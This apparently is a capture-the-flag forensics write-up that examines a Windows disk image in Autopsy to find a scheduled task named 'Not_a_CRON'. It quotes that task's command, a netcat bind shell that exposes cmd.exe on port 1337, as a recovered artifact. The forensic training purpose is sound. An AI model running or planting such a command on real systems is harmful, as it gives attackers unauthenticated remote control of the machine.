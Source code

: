 # FM17
## Forensics (Medium)

![FM17](FM17.png)

This challenge requires you to load the **Evidence.E01** file provided for several of the challenges. This is a raw disk image from a Windows PC that we can examine to answer the questions.

For this, we can use Autopsy to create a case and attach the disk image using the web interface:

![FM17](FM17_1.png)
![FM17](FM17_2.png)

After we have mounted the image, we can see the a windows file structure. In order to find the scheduled tasks, we can browse to:

`C:/Windows/System32/Tasks`

![FM17](FM17_3.png)

Where we see the file **Not_a_CRON** which contains the scheduled task definition including the command used to run the program.

`z:\tools\nc.exe -l -p1337 -e c:\windows\system32\cmd.exe`

![FM17](FM17_4.png)
